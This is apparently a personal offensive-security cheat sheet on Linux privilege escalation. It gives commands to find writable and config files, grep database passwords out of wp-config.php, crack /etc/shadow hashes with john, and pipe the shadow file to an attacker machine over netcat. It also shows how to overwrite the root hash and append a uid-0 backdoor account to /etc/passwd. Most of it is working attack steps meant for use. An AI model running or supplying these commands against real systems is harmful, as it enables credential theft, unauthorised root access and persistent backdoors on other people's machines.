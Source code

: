 
## To find every writable file in system
```
find / -writable -type d 2>/dev/null
```

## find imp files
```
find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null

find / -type f -name "*.sh" 2>/dev/null | grep -v "src\|snap\|share"
```

## Creds hunt
```
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'

find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
```
## Permission Path

su root -> go check in /etc/passwd (if user available and has hash) -> then check in /etc/shadow for hash -> verify hash from shadow file

```
ls -la /etc/passwd && la -la /etc/shadow && ls -la /etc/sudoers
```

***

## Shadow file ---- username & password hashes stored here

### read hash from /etc/shadow

* [ ] john 'hash\_from\_shadow' > hash
* [ ] john hash --wordlist=rockyou.txt

### if it has write permission then,

we can manipulate the file and change hashes for the root

> if we have ssh shell, it may not support nano/vim then we have to change files via nc

* [ ] first, we have to start nc in victim machine

```
nc -nvlp 5555 < /etc/shadow
```

* [ ] then start nc in attack machine with victim ip and port
* [ ] so, file come in our attack machine. now create new hash with openssl/mkpasswd

> even we change hash type while transferring shadow file then it still works

#### Extra Note:

< \[/path/name] means to share file from thic pc

\> \[name] means to receive file from other pc as that specified name

> [!NOTE]
> mkpasswd not available in other distros (only in kali), that's why openssl is preferred


***

### make hash

* [ ] openssl passwd -6 hello
* [ ] now change old hash to new one
* [ ] start listening on attack machine
* [ ] nc attack\_ip 5555 < shadow
* [ ] nc -nvlp 5555 > /etc/shadow

![[image 43.png]]

***

## Passwd file ---- username stores here

* It has read permission for everyone
* it's super **RARE** that hash directly written here and it's not detect in any automated tool like linpeas
* but if, it has write permission then

1. remove x. so it won't check in shadow file
2. directly write hash there in /etc/passwd
3. create another user in /etc/passwd as backdoor

```
#generate password hash for the new user
openssl passwd -1 -salt $salt $password

#for example, try to avoid the hashed password contain special character. The $ is unavoidable, that is the format of passwd hash.
openssl passwd -1 -salt aaa admin134

#result hashed password
$1$aaa$2gZh60XPpDSkkMhy5ZfQ71

#add the new user to /etc/passwd, remember to escape the special character $ by adding backslash \ infront it.
echo "admin2:\$1\$aaa\$2gZh60XPpDSkkMhy5ZfQ71:0:0:test:/root:/bin/bash" >> /etc/passwd

#switch to new created user
su admin2
```

***

## Sudoers file --- give permission for specific users

* check permission for this file
